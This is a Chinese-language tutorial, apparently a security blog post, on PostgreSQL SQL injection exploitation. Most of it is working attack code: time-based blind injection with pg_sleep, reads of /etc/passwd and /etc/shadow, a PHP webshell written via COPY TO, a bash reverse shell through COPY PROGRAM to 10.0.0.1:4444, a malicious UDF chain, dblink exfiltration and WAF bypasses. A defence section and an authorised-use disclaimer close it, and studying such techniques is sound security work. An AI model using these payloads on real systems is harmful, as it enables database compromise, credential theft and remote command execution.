

## 引言

PostgreSQL 功能丰富、扩展性强，但高级特性同样扩大了注入攻击面。与 MySQL 不同，PostgreSQL 的利用链路从延时注入到文件系统操作再到命令执行，攻击向量更加多样。本文聚焦 PostgreSQL 特有的注入技术与实战利用手法。

## 与 MySQL 关键差异

| 特性 | MySQL | PostgreSQL |
|------|-------|------------|
| 堆叠查询 | 部分支持 | 原生支持 |
| 文件读取 | LOAD_FILE() | pg_read_file() |
| 延时函数 | SLEEP() | pg_sleep() |
| 命令执行 | UDF (.so/.dll) | UDF + COPY PROGRAM + PL/pgSQL |
| 大对象 | 无 | lo_import / lo_export |

## 一、时间盲注：pg_sleep 系列

PostgreSQL 使用 `pg_sleep(seconds)` 实现延时，另有 `pg_sleep_for()` 和 `pg_sleep_until()` 用于更精细控制。

```sql
-- 条件延时：判断当前数据库名首字是否为 't'
SELECT CASE WHEN (SELECT current_database()) LIKE 't%'
    THEN pg_sleep(3) ELSE pg_sleep(0) END;

-- 二分法盲注：判断字符 ASCII 是否大于 109（字母 'm'）
SELECT CASE WHEN ASCII(SUBSTRING(current_database(), 1, 1)) > 109
    THEN pg_sleep(2) ELSE pg_sleep(0) END;
```

### 重要陷阱

`pg_sleep()` 对每行都执行一次。若查询返回多行，总延时 = 行数 × sleep 秒数，极易导致误判。务必使用 `generate_series(1,1)` 或 `LIMIT 1` 限制：

```sql
' AND (SELECT CASE WHEN (...) THEN pg_sleep(3)
    ELSE NULL END FROM generate_series(1,1))--
```

## 二、文件操作：pg_read_file 与 pg_ls_dir

超级用户或拥有对应函数 EXECUTE 权限的角色可直接操作文件系统。

```sql
-- 读取 /etc/passwd（指定偏移与长度）
SELECT pg_read_file('/etc/passwd', 0, 2000);

-- 读取 postgresql.conf 配置文件
SELECT pg_read_file(
    (SELECT setting FROM pg_settings WHERE name='data_directory')
    || '/postgresql.conf', 0, 5000);

-- 报错注入读取（无直接回显时）
SELECT CAST(pg_read_file('/etc/passwd') AS integer);

-- 列出数据目录
SELECT pg_ls_dir((SELECT setting FROM pg_settings WHERE name='data_directory'));
```

## 三、COPY 命令利用

`COPY` 是 PostgreSQL 最强大的数据导入导出机制，支持文件读、写、命令执行。

### 文件读取与写入

```sql
-- COPY FROM 读文件
CREATE TEMP TABLE file_content (line text);
COPY file_content FROM '/etc/passwd';
SELECT * FROM file_content;

-- COPY TO 写 Webshell
COPY (SELECT '<?php @eval($_POST["cmd"]);?>')
    TO '/var/www/html/upload/shell.php';
```

### COPY PROGRAM —— 命令执行（9.3+）

最直接的命令执行方式，需超级用户且 `pg_execute_server_program` 未禁用：

```sql
-- 执行命令并获取回显
COPY (SELECT '') TO PROGRAM 'id';

-- 将命令结果读入表中
CREATE TEMP TABLE cmd_output (output text);
COPY cmd_output FROM PROGRAM 'whoami';
SELECT * FROM cmd_output;

-- 反弹 Shell
COPY (SELECT '') TO PROGRAM
    'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"';
```

## 四、大对象（Large Object）攻击

大对象支持单一事务操作最大 4TB 数据，`lo_import()` 和 `lo_export()` 实现文件系统与数据库的双向传输。

```sql
-- lo_import 将文件导入数据库，返回 OID
SELECT lo_import('/etc/passwd');   -- 返回如 123456
' UNION SELECT NULL, lo_import('/etc/passwd'), NULL--  -- 联合注入

-- lo_export 将大对象导出写文件
SELECT lo_from_bytea(0, decode('cGxhaW50ZXh0', 'base64'));
SELECT lo_export(12345, '/var/www/html/shell.php');

-- 文件拷贝：读入后写出到可访问目录
SELECT lo_export(lo_import('/etc/passwd'), '/tmp/passwd_copy.txt');

-- 读取大对象内容（分片存储，按 pageno 排序拼接）
SELECT encode(data, 'escape') FROM pg_largeobject
    WHERE loid=12345 ORDER BY pageno;
```

## 五、UDF 命令执行

当 COPY PROGRAM 不可用时，编译共享库创建用户自定义函数是经典提权路径。

```sql
-- Step 1: 以十六进制将 .so 文件分片写入大对象
SELECT lo_create(99999);
INSERT INTO pg_largeobject VALUES (99999, 0, decode('7f454c46...', 'hex'));

-- Step 2: 导出到文件系统
SELECT lo_export(99999, '/tmp/evil.so');

-- Step 3: 创建函数并执行命令
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text
    AS '/tmp/evil.so', 'sys_eval' LANGUAGE C STRICT;
SELECT sys_eval('id');
SELECT sys_eval('cat /etc/shadow');
```

### C 语言 UDF 模板（核心骨架）

```c
#include "postgres.h"
#include "fmgr.h"
PG_MODULE_MAGIC;
PG_FUNCTION_INFO_V1(sys_eval);
Datum sys_eval(PG_FUNCTION_ARGS) {
    FILE *fp = popen(text_to_cstring(PG_GETARG_TEXT_P(0)), "r");
    // ... 读取输出，组装 text 返回
    PG_RETURN_TEXT_P(result);
}
```

## 六、PL/pgSQL 代码执行

PL/pgSQL 是 PostgreSQL 原生过程语言。在可堆叠查询场景下，使用 `DO` 匿名块可实现复杂逻辑并绕过部分 WAF。

```sql
-- DO 块直接调用 COPY PROGRAM
DO $$
DECLARE cmd text := 'id';
BEGIN
    EXECUTE 'COPY (SELECT '''') TO PROGRAM ''' || cmd || '''';
END;
$$;

-- 循环盲注：逐字符提取并在 NOTICE 中回显
DO $$
DECLARE
    i integer; c text; result text := '';
BEGIN
    FOR i IN 1..30 LOOP
        SELECT chr(ASCII(SUBSTRING(current_database(), i, 1))) INTO c;
        IF c IS NOT NULL THEN result := result || c; END IF;
    END LOOP;
    RAISE NOTICE 'Extracted: %', result;
END;
$$;

-- dblink 带外数据外传（需扩展已安装）
CREATE EXTENSION IF NOT EXISTS dblink;
SELECT dblink_connect(
    'host=10.0.0.1 port=53 user=exfil password=' ||
    (SELECT current_database()) || ' dbname=test'
);
```

## 七、攻击决策流程图



## 八、WAF 绕过与实战陷阱

### 绕过技巧

```sql
-- 注释符隔断关键字
SELECT PG_SLEEP/**/(5);

-- CHR() 字符构造绕过关键字
SELECT pg_read_file(CHR(47)||CHR(101)||CHR(116)||CHR(99)||
    CHR(47)||CHR(112)||CHR(97)||CHR(115)||CHR(115)||CHR(119)||CHR(100));

-- 美元引号绕过单引号过滤
SELECT $tag$<?php system($_GET["c"]);?>$tag$;
```

### 常见陷阱

1. **权限不足**：`pg_read_file` 和 `COPY PROGRAM` 默认仅超级用户可用，云数据库（RDS、Cloud SQL）通常直接禁用。
2. **WAL 日志**：大对象和 COPY 操作全量记入 WAL，留下清晰的取证痕迹。
3. **二进制读取**：PG 14 之前需使用 `pg_read_binary_file()` 读取二进制文件，`pg_read_file()` 受编码影响可能截断。
4. **OID 耗尽**：32 位系统 OID 上限约 40 亿，密集 lo_import 可能耗尽 OID 池。
5. **RDS 受限**：AWS RDS 禁用文件系统函数和 COPY PROGRAM，攻击面收缩至 dblink 带外与数据窃取。

## 九、防御措施

### 开发层面

```sql
-- 始终使用参数化查询
PREPARE safe_query (text) AS SELECT * FROM users WHERE username = $1;
EXECUTE safe_query('user_input');

-- 最小权限：为应用创建受限角色，切忌授予 SUPERUSER
CREATE ROLE app_user LOGIN PASSWORD 'strong_password';
GRANT SELECT, INSERT, UPDATE, DELETE
    ON ALL TABLES IN SCHEMA public TO app_user;
```

### 数据库加固

```sql
-- 回收危险函数的 public 执行权限（生产环境必做）
REVOKE EXECUTE ON FUNCTION pg_read_file(text) FROM public;
REVOKE EXECUTE ON FUNCTION pg_read_binary_file(text) FROM public;
REVOKE EXECUTE ON FUNCTION pg_ls_dir(text) FROM public;
REVOKE EXECUTE ON FUNCTION lo_import(text) FROM public;
REVOKE EXECUTE ON FUNCTION lo_export(oid, text) FROM public;
```

### 监控告警

- 启用 `pg_stat_statements` 追踪可疑查询模式。
- 对 `pg_largeobject` 表的异常 OID 创建设置告警。
- 定期审计 `pg_proc` 系统表中非预期的 C 语言函数。
- 分析 PostgreSQL 日志中的异常 `ERROR` 和完整 `STATEMENT`。

## 总结

PostgreSQL 的注入攻击面远不止数据窃取。从 `pg_sleep` 延时盲注，到 `pg_read_file` 任意文件读取，再到 `COPY PROGRAM` 直接命令执行，每条链路都可能被攻击者利用。深入理解这些特性并落实纵深防御，是每位 PostgreSQL DBA 与安全工程师的必修课。

> 本文仅用于授权安全测试与学习，请勿用于非法用途。
